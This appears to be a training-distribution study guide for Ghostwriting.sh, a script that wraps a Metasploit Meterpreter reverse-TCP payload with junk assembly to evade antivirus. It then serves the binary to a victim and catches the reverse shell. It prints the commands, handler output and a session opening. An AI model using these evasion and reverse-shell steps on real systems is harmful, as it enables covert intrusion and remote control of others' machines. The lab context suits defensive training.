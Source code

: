 # StudyGuide

Description
-----------
Ghostwriting is a method of anti-virus bypass utilizing binary deconstruction, insertion of arbitrary assembly code, and reconstruction.
We will make use of built in metasploit tools to perform the actions listed above.  Ghostwriting.sh is a tool used to automate the process.

Install Location
----------------

`/opt/ghostwriting/`

Usage
-----

Ghostwriting.sh is quite easy to use.  Simply change directory to the install location,
run the script, and follow the prompts.

Let me show you an example.

Video Walkthrough
-----------------

<iframe src="https://onedrive.live.com/embed?cid=8D6C4317A39E3D29&resid=8D6C4317A39E3D29%2155674&authkey=AFzauuwLy7HXj-M" width="320" height="179" frameborder="0" scrolling="no" allowfullscreen sandbox="allow-scripts allow-pointer-lock allow-forms allow-same-origin"></iframe>

Example 1: Obfuscating an executable with Ghostwriting.sh
---------------------------------------------------------

Let's first launch the script

`~$` **`cd /opt/ghostwriting/`**

`/opt/ghostwriting$` **`sudo ./ghostwriting.sh`**

Ghostwriting will first download and install any missing gems it may need.  It will then create a
meterpreter reverse tcp binary ready to connect back to your machine's private IP address.
Next it will disassemble that executable, and insert junk code as a form of signature evasion.
Finally it will reassemble the binary with the junk code inside, and open a webserver so you can
transfer the file to your victim machine.

        ****************************************************
        Opening webserver on 192.168.27.171:8000 for file transfer
        Ctrl+C to continue after file transfer
        ****************************************************
        Serving HTTP on 0.0.0.0 port 8000 ...

On your victim machine, open a web browser, and navigate to the ip address of your ADHD machine on port 8000.
You should see two files.  Click to download "EveryVillainIsLemons.exe".

![Downloads in Chrome](Ghostwriting.sh_files/downloads.PNG)

Here is the moment of truth, depending on your AV this specific file may or may not be detected
and block upon download (or later upon execution).  If you need to, go ahead and disable your AV's
real-time protection.  This script is a demonstration tool more than anything.  It can however be
modified to be hyper effective.

Once you have the file downloaded, go ahead and head over to your terminal in ADHD and
press **`Ctrl + C`** to stop the web server.

Ghostwriting.sh will now ask you if you would like to start the payload handler, tell it yes (y).

        File Transfer Complete, probably...
        Would you like to start the handler now? [y/N]
        y
        Starting Handler
        LHOST => 192.168.27.171
        LPORT => 8080
        [*] Started reverse handler on 192.168.27.171:8080
        [*] Starting the payload handler...

It will then launch metasploit's reverse shell handler.

To create a session, back on your victim machine, simply run the executable file "EveryVillainIsLemons.exe"

The reverse handler on ADHD should receive the incoming connection and launch a session for you.

        [*] Sending state (769536 bytes) to 192.168.27.1
        [*] Meterpreter session 1 opened (192.168.27.171:8080 -> 192.168.27.1:9832) at 2014-06-30 12:41:33

        meterpreter \>

There you go, happy pwning!


